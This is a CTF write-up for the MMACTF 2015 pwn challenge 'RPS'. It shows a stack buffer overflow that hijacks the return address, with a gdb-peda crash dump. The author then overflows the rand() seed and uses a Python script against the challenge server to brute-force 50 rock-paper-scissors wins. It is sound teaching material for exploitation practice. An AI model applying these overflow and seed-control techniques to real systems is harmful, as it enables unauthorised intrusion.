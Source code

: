 ```yaml
---
layout: post
title: "Write up | MMACTF 2015 - Pwn - RPS"
date: 2015-09-09 15:14:40 +0000
comments: true
categories: 
---
```


~~~
Problem
Win 50 games in a row!
nc milkyway.chal.mmactf.link 1641
~~~
[rps.7z](http://assets.score.mmactf.link/attachments/rps.7z-5c18b372802c14abfec93c81a2cfdc5bac7f5aeeb16ad7404aace7ae25591c6e)

Try to overflow the input, I discover that with payload `'1' * 88 + myaddr` , I can control the EIP to myaddr

```
gdb-peda$ r < data
Starting program: /root/MMACTF/rps/rps < data
What's your name: Hi, 11111111111111111111111111111111111111111111111111111111111111111111111111111111111111114321ABCD
Let's janken
Game 1/50
Rock? Paper? Scissors? [RPS]Bye bye

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b13f60 (<__write_nocancel+7>:      cmp    rax,0xfffffffffffff001)
RDX: 0x0
RSI: 0x7ffff7dd7780 --> 0x0
RDI: 0x7ffff7dd6620 --> 0xfbad2a84
RBP: 0x3131313131313131 ('11111111')
RSP: 0x7fffffffea78 ("4321ABCD")
RIP: 0x400ae2 (<main+732>:      ret)
R8 : 0x7ffff7dd7780 --> 0x0
R9 : 0x7ffff7fed700 (0x00007ffff7fed700)
R10: 0x355
R11: 0x246
R12: 0x400710 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffeb50 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400ad7 <main+721>: call   0x4006e0 <fflush@plt>
   0x400adc <main+726>: mov    eax,0x0
   0x400ae1 <main+731>: leave
=> 0x400ae2 <main+732>: ret
   0x400ae3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400aed:    nop    DWORD PTR [rax]
   0x400af0 <__libc_csu_init>:  push   r15
   0x400af2 <__libc_csu_init+2>:        mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffea78 ("4321ABCD")
0008| 0x7fffffffea80 --> 0x7fffffffeb00 --> 0x7fffffffeb58 --> 0x7fffffffed88 ("/root/MMACTF/rps/rps")
0016| 0x7fffffffea88 --> 0x7fffffffeb58 --> 0x7fffffffed88 ("/root/MMACTF/rps/rps")
0024| 0x7fffffffea90 --> 0x100000000
0032| 0x7fffffffea98 --> 0x400806 (<main>:      push   rbp)
0040| 0x7fffffffeaa0 --> 0x0
0048| 0x7fffffffeaa8 --> 0xe764facb54c92eb8
0056| 0x7fffffffeab0 --> 0x400710 (<_start>:    xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400ae2 in main ()
```

But, the address of line printing "Congrats" message contains **\x0a** character.
It is changed to other character when I push to the program.
I also try injecting shellcode to postfix, but it doesn't work too.

> Make it simple !

What about rand() ? Is it safe perfectly ?


I pay attention to `seed` of rand function. Seem like it can be overflowed too :)


Using gdb, i have where the name stored in memory

![name's address](http://i.imgur.com/VjgdeOA.png)

=> `$bp-0x50`

And `...seed`

![seed's address](http://i.imgur.com/j93EyWq.png)

=> `$bp-0x20`

Calculate the length of payload:
```
0x50 - 0x20 = 0x30 ~ 48
```

So,
```
seed = 'AAAA'
payload = 'A' * 48 + seed
```

Keep the `seed`, we try to brute force the result.
I use this code:
```
#!/usr/bin/env python 2.7

import socket
import telnetlib
import struct

p = lambda x: struct.pack("I", x)
P = lambda x: struct.unpack("I", x)
q = lambda x: struct.pack("<Q", x)

def interact():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def r_until(st, debug=False):
    ret = ""
    while st not in ret:
        lret = s.recv(8192)
        if debug and len(lret) > 0:
            print lret
        ret += lret
    return ret

def tryluck(s, c):
    s.send(c + '\n')
    result = s.recv(1024)    
    if 'win' in result:
        return True
    return False

if __name__ == '__main__':
    correctAnswer = []
    guessAnswer = 0                                     # 0 for R, 1 for P, 2 for S 
    for sessionID in range(0, 1000):        
        s = socket.create_connection(('milkyway.chal.mmactf.link', '1641'))
        print r_until(':')
        name = "A" * 52                                 # 48 + 4    
        s.send(name + '\n')            
        gameID = 0    
        while True:          
            print '[+] sessionID:', sessionID, '        gameID:', (gameID+1)
            print '[+] correctAnswer', correctAnswer                        
            print r_until(']', debug=True)

            if gameID + 1 <= len(correctAnswer):        # I have saved result for this game
                s.send(correctAnswer[gameID] + '\n')
                result = s.recv(1024)
                print '[+] Result:', result            
            else:                                       # no result for this game exists
                if guessAnswer == 0:
                    answer = 'S'
                elif guessAnswer == 1:
                    answer = 'R'
                else:
                    answer = 'P'

                if not tryluck(s, answer):
                    guessAnswer += 1                    # choose another answer
                    break     

                correctAnswer.append(answer)            # win, record the answer
                guessAnswer = 0                                                        

            gameID += 1
```

Get flag: `MMA{treed_three_girls}`